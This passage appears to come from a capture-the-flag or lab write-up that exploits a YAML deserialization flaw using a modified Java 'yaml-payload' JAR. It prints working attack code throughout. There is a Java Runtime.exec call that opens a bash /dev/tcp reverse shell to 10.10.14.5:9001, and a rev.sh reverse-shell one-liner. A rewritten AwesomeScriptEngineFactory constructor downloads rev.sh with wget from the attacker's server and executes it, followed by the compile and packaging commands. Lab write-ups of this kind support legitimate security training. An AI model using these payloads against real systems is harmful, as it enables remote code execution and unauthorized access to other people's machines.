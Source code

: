 ```none
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.5/9001;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();
```

The next thing I checked was running a `wget` on a non-existent file on my system - similar to how we tried to fetch the `meow.txt` before. I could tell from this attempt that we could fetch the file from our machine - as I could see the 200 response on my Python HTTP server. The next idea I had was to avoid using special characters by uploading the reverse shell, then executing it on the target. This would remove the problematic characters from the Java source code.

Started by creating a simple bash reverse shell in a file named `rev.sh`.

```none
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" > rev.sh
```

Then modified the Java exploit file.

```none
vim src/artsploit/AwesomeScriptEngineFactory.java
```

Here is the final block of code I used.

```java
public AwesomeScriptEngineFactory() {
    try {
        Process p = Runtime.getRuntime().exec("wget http://10.10.14.5:8000/exploits/rev.sh -O /tmp/rev.sh");
        p.waitFor();
        p = Runtime.getRuntime().exec("bash /tmp/rev.sh");
    } catch (IOException | InterruptedException e) {
        e.printStackTrace();
    }
}
```

The main flow of the code is:

- Fetch the `rev.sh` file from the webserver (port 8000, in the folder named `exploits`) and save it in the `/tmp` folder on the target
- Run the `rev.sh` on the target from the `/tmp` folder using `bash`
- Needed to add in another exception to the `catch` clause of `InterruptedException` so the code would compile

After modifying the code, we can use the info on the project page to compile the project.

```none
javac src/artsploit/AwesomeScriptEngineFactory.java
```

And finally, make a JAR file.

```none
jar -cvf yaml-payload.jar -C src/ .
```
